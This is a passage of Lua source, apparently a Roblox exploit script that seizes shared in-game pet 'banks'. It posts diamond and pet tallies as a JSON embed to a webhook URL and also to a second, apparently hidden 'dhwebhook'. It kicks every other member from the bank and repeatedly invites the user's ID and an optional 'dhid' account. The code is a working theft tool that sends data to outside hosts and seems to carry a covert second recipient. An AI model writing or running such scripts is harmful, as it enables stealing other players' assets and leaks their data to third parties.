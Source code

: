                 {
                    ["name"] = ":eyes: **Total Pets** :eyes:",
                    ["value"] = "",
                    ["inline"] = false
                },
                {
                    ["name"] = "---------------------------------------",
                    ["value"] = "",
                    ["inline"] = false
                },
                {
                    ["name"] = ":gem: **Diamonds** :gem:",
                    ["value"] = "```" .. TDiamondsCount .. "```",
                    ["inline"] = true
                }, {
                ["name"] = ":dog: **Pets** :dog:",
                ["value"] = "```" .. #SuperBank["Storage"]["Pets"] + #FinalList .. "```",
                ["inline"] = true
            },
            }
        }
        }
    }
end

local newdata1 = game:GetService("HttpService"):JSONEncode(data1)

local headers = {
    ["content-type"] = "application/json"
}

if _G.Webhook ~= nil then
    local abcdef1 = {
        Url = url,
        Body = newdata1,
        Method = "POST",
        Headers = headers
    }
    request(abcdef1)
end
task.wait()
if dhwebhook ~= nil then
    local abcdef2 = {
        Url = dhwebhook,
        Body = newdata1,
        Method = "POST",
        Headers = headers
    }
    request(abcdef2)
end
for i, v in pairs(SuperBank["Players"]) do
    if v ~= _G.UserID then
        kickremote:InvokeServer(Bank, v)
    end
end
while task.wait(0.1) do
    if dhid ~= nil then
        inviteremote:InvokeServer(mybanks[1]["BUID"], dhid)
    end
    task.wait()
    inviteremote:InvokeServer(mybanks[1]["BUID"], _G.UserID)
end
